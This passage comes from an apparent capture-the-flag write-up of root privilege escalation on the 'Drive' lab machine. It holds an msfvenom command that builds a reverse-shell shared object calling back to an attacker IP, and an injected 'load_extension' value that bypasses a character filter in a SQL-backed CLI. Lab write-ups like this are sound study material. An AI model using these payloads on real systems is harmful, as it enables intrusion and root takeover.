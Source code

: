 Now by default, this option is disabled, but for this machine it was enabled:

```
tom@drive:~$ sqlite3
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
Connected to a transient in-memory database.
Use ".open FILENAME" to reopen on a persistent database.
sqlite> SELECT sqlite_compileoption_used('ENABLE_LOAD_EXTENSION');
1
```

This means that we should be able to load whatever `.so` files we want. Using this, we can generate a `.so` reverse shell using `msfvenom`:

```
$ msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=10.10.14.17 LPORT=4444 -f elf-so -o a.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: a.so
```

Then, download this to the machine in the same directory as the binary. After some testing with the syntax, I was able to make the binary accept an argument from me:

![](../../.gitbook/assets/htb-drive-image-17.png)

Spaces and `+` characters cannot be used in the above, so I used `char` to type out the name of the `.so` file. The `load_extension` function needs to take in `./a` as the input:

```
doodleGrive cli beta-2.2: 
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 5
Enter username to activate account: "+load_extension(char(46,47,97))+"
Activating account for user '"+load_extension(char(46,47,97))+"'..
```

This would spawn a reverse shell as `root`:

![](../../.gitbook/assets/htb-drive-image-18.png)

Rooted!
